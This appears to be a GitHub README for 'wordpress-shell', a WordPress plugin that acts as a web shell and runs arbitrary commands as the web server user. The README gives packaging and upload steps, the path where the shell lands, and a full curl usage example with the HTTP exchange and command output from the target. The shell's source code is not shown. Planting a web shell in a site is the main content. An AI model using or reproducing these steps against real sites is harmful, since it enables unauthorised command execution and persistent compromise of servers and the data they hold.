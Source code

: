 wordpress-shell
===============

Cheap &amp; Nasty Wordpress Command Execution Shell.

Execute Commands as the webserver you are serving wordpress with!
Uploaded shell will probably be at <host>/wp-content/plugins/shell/shell.php

Install
=======
To install the shell, we are assuming you have administrative access to the Wordpress install and can install plugins.
Either upload the zip file located in the `dist/` directory, or create your own archive with:

```bash
λ wordpress-shell → λ git master → zip -r shell.zip shell.php
  adding: shell.php (deflated 39%)
  
λ wordpress-shell → λ git master → ls -lah shell.zip
-rw-r--r--  1 bob  staff   492B Aug 29 14:17 shell.zip
```

Once uploaded, navigate to `/wp-content/plugins/shell/shell.php` and provide the `cmd` argument.

Sample Usage
============

```bash
root@kali:~# curl -v "http://192.168.0.1/wp-content/plugins/shell/shell.php?$(python -c 'import urllib; print urllib.urlencode({"cmd":"uname -a"})')"
* About to connect() to 192.168.0.1 port 80 (#0)
*   Trying 192.168.0.1...
* connected
* Connected to 192.168.0.1 (192.168.0.1) port 80 (#0)
> GET /wp-content/plugins/shell/shell.php?cmd=uname+-a HTTP/1.1
> User-Agent: curl/7.26.0
> Host: 192.168.0.1
> Accept: */*
> 
* additional stuff not fine transfer.c:1037: 0 0
* HTTP 1.1 or later with persistent connection, pipelining supported
< HTTP/1.1 200 OK
< Date: Thu, 28 Aug 2014 09:28:24 GMT
< Server: Apache/2.2.14 (Ubuntu)
< X-Powered-By: PHP/5.3.2-1ubuntu4
< Vary: Accept-Encoding
< Content-Length: 191
< Content-Type: text/html
< 
Linux wordpress-server 2.6.32-21-generic-pae #32-Ubuntu SMP Fri Apr 16 09:39:35 UTC 2010 i686 GNU/Linux
* Connection #0 to host 192.168.0.1 left intact
```
